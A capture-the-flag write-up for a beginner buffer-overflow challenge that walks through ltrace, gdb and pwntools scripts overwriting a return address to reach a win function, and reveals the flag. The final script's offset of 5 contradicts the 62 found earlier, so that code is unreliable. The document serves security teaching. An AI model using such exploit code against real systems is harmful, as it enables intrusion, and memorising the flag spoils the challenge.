



# Title

## Authors
- @jjamme

## Category
- Binary Exploitation

## Description
We are overflowing with customers!

`nc pwn.ctf.unswsecurity.com 5002`

## Difficulty
- Easy

## Points
50

## Files
- [office](_ctfd/files/office): binary to exploit

## Solution
<details>
<summary>Spoiler</summary>

### Idea
Using a buffer overflow, you can overwrite the return address and change code flow!

### Walkthrough
As usual, a plug for LiveOverflow is due:
- [LiveOverflow's binary exploitation playlist](https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN)  
  (Shall go into the exploits in MUCH more detail)
  
The exploit is a simple buffer overflow through gets(). So the best way to break the program, is to be reaally excited about that skylight cyber visit



The easiest way to find the gets, is to run `ltrace` on the execution. Automating the input from before

```bash
python -c "print 'a' * 100" | ltrace ./office
```  
gives us:


as you see, its running gets, which means you can enter as many characters as you want and the program happily writes it into memory (even in places you, the user is not meant to write to)

The idea is that you're meant to "visit" Skylight's Sydney office, which is a 4-byte address to the win function. The best way to see this is to open up the binary in gdb, list all functions using `info functions` command
```
pwndbg> info functions
...
0x080491e6  win
0x08049277  vuln
0x080492ef  main
...
```

The point is that when you write excess input using gets, it filled up the buffer which was meant to store it, and then started overwriting the stack. The program, on executing the return statement, will simply take what's on the top of the stack (since this is where it expects the return address to be) and then jumps to it. If we control this address, we control code flow

Now the only problem is to find the offset to write the address to. The easiest way to do this is to write the address to every offset until it gives you a flag.
```py
from pwn import *
from subprocess import Popen, PIPE

for i in range(20, 100):
    test = b'a' * i + pack(0x080491e6)
    
    # open a link to the program and execute
    prog = Popen('./office', stdin=PIPE, stdout=PIPE)
    (res, _) = prog.communicate(test)

    # search for the flag
    if (b"SKYLIGHT" in res):
        print(res)
        break
```
**Note**: The pack function from pwntools converts numbers into little endian format. (google this or watch liveoverflow as to why)


But for the sake of understanding how this works is to enter a large number of unique characters, and find out which character the program redirects execution to. 
something like:
```
python -c "print 'AAAABBBBCCCCDDDD...'" | ./office 
```
we can generate long unique strings using pwntools
```py
from pwn import *
print(cyclic(100))
```
then you run the program using gdb, and enter the string you created
```
gdb ./office
gdb> run
gdb> **enter your string here**
```
We then see that the program tries to return (or jump to) the address `0x61716161`

_I'm using the pwndbg extension for gdb btw, that's why it looks prettier_

Since we see that the instruction pointer was trying to execute the instruction `aaqa`, we can find the offset for it into the buffer (using pwntools again)
```py
from pwn import *
print(cyclic_find(b'aaqa'))
```
which gives us 62, i.e. it jumps to the address after the 62nd character. So our payload is now:

```py
b'a' * 62 + pack(0x080491e6)
``` 
Putting this in the pwntools script, we get:
```py
from pwn import *
from subprocess import Popen, PIPE

prog = Popen('./office', stdin=PIPE, stdout=PIPE)

payload = b'a' * 5 + pack(0x080491e6)
(res, _) = prog.communicate(payload)
print(res)
```


### Flag
`SKYLIGHT{th1s_i5_n0t_0UR_0FF1ce}`

</details>
